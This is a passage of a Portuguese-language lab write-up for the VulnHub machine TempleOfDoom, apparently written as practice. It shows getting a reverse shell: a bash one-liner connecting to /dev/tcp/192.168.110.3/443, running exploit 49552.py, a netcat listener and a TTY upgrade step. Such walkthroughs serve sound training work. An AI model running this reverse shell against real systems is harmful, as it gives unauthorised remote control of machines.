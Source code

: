 ![](/assets/img/Vulnhub/TempleOfDoom/rbscheat.png)

> - **bash -i >& /dev/tcp/192.168.110.3/443 0<&1**


# Shell Reverso

Agora invocamos o bash e deixamos a mesma porta aberta que configuramos no exploit. Depois disso executamos o exploit e recebemos o shell do alvo 

```bash
python 49552.py 
```

![](/assets/img/Vulnhub/TempleOfDoom/exploit-exec.png)

```bash
bash
sudo nc -lnvp 443
```

![](/assets/img/Vulnhub/TempleOfDoom/shell-reverso.png)



## Shell Interativo

Para melhorar o shell os seguinte passos devem ser seguidos:

* Importar o tty no shell do alvo

```bash
script /dev/null
```
